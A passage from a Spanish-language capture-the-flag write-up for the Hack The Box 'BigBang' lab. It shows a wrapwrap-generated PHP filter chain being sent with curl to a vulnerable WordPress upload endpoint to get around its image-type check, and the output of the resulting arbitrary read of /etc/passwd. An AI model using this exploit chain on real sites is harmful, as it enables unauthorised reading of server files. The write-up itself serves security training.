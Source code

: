 Modificamos la **evil_url** para utilizar la cadena generada por **wrapwrap** , luego sube el archivo a través del endpoint vulnerable. Este método evita la restricción de tipo de archivo engañando al servidor para que interprete el archivo como una imagen. Con este enfoque, podemos realizar lectura de archivos arbitrarios y filtrar el contenido del archivo subido, que se supone que es una "imagen".

```bash
(venv) ➜  wrapwrap git:(main) ✗ python3 wrapwrap.py '/etc/passwd' 'GIF89a' '' 500000 
[!] Ignoring nb_bytes value since there is no suffix
[+] Wrote filter chain to chain.txt (size=1444).
(venv) ➜  wrapwrap git:(main) ✗ cat chain.txt 
───────┬──────────────────────────────────────────────────────────────────────────────────────
       │ File: chain.txt
───────┼──────────────────────────────────────────────────────────────────────────────────────
   1   │ php://filter/convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.CSGB2312.UTF-
       │ 32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-
       │ 32LE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv
       │ .CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.i
       │ conv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF
       │ 7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_
       │ JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.i
       │ conv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775
       │ |convert.base64-decode|convert.base64-encode|convert.iconv.855.UTF7|convert.iconv.L6.
       │ UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|co
       │ nvert.iconv.855.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert
       │ .iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.b
       │ ase64-encode|convert.iconv.855.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSI
       │ SO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|conv
       │ ert.base64-encode|convert.iconv.855.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.
       │ IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|con
       │ vert.base64-encode|convert.iconv.855.UTF7|convert.base64-decode/resource=/etc/passwd
───────┴───────────────────────────────────────
```


Ahora modificamos la **evil_url** para utilizar la cadena generada por **wrapwrap** , luego súbela a través del punto de entrada vulnerable. Esto evita la restricción de tipo de archivo al engañar al servidor para que interprete el archivo como una imagen. Con este método, podemos realizar con éxito la lectura de archivos arbitrarios, filtrando los contenidos del archivo subido (que se interpreta como una "imagen").


```bash
wrapwrap git:(main) ✗ export evil_url="$(cat chain.txt )" 

wrapwrap git:(main) ✗ curl 'http://blog.bigbang.htb/wp-admin/admin-ajax.php' \
-H 'Content-Type: application/x-www-form-urlencoded' \
-d "action=upload_image_from_url&id=1&accepted_files=image/gif&url=${evil_url}"

{"status":"OK","response":"http:\/\/blog.bigbang.htb\/wp-content\/uploads\/2025\/02\/1-4.png","attachment_id":159}%        

(venv) ➜  wrapwrap git:(main) ✗ curl 'http://blog.bigbang.htb//wp-content//uploads//2025//02//1-4.png' -o exploited.png
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   843  100   843    0     0   7500      0 --:--:-- --:--:-- --:--:--  7526
(venv) ➜  wrapwrap git:(main) ✗ strings exploited.png 
GIF89aroot:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
```